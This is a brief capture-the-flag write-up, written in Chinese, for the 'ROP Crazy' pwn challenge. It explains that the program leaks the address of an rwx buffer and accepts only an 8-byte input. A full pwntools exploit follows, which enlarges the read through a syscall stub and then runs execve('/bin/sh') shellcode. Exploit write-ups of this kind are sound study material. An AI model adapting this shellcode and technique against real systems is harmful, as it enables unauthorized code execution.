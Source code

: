 # Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://github.com/phieulang1993/ctf-writeups/blob/master/2018/bytebandit/ROP_Crazy/ropcrazy.py
* https://github.com/st424204/ctf_practice/blob/master/Byte_Bandits_CTF/rop_crazy/gg.py
* http://www.wooy0ung.me/writeup/2018/04/10/bytebanditsctf-2018-writeup/

# Title

[//]: <> (题目)

Can you randomly ROP out your way?

nc 34.218.199.37 5000

# Content

[//]: <> (WriteUp内容)

程序开辟了0x1000的rwx内存空间

![](Resource/1.png)

并将首地址被打印出来了

![](Resource/2.png)

再读8 byte，明显不够放入shellcode，做rop修改读入长度为0xff byte

![](Resource/3.png)

```python
from pwn import *

context.arch = "amd64"

s = process("./gg")
elf = ELF("./gg")

sh_addr = int(s.recvline(),16)

s.recv(0x1000)

s.send(p64(sh_addr))

p = asm("""
xor rdx,rdx
mov dl,0xff
syscall
nop
""")

s.send(p)

p = "\x90"*0xc8
p += asm("""
xor rdx,rdx
mov dl,0xff
syscall
nop
mov rbx,0x0068732f6e69622f
push rbx
push rsp
pop rdi
xor rsi,rsi
push rsi
pop rdx
push rdx
pop rax
mov al,0x3b
syscall
mov al,0x3c
xor rdi,rdi
syscall
""")

s.send(p)
s.interactive()
```